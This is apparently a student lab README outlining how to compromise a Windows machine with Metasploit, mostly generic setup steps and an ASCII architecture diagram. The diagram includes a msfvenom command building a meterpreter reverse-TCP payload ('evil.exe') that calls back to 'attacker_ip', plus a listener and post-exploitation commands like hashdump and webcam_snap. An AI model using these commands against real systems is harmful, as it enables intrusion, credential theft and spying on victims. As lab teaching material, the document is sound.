 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

### Developed By: Mohanram Gunasekar
### REGISTER NUMBER: 212223240095

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+
```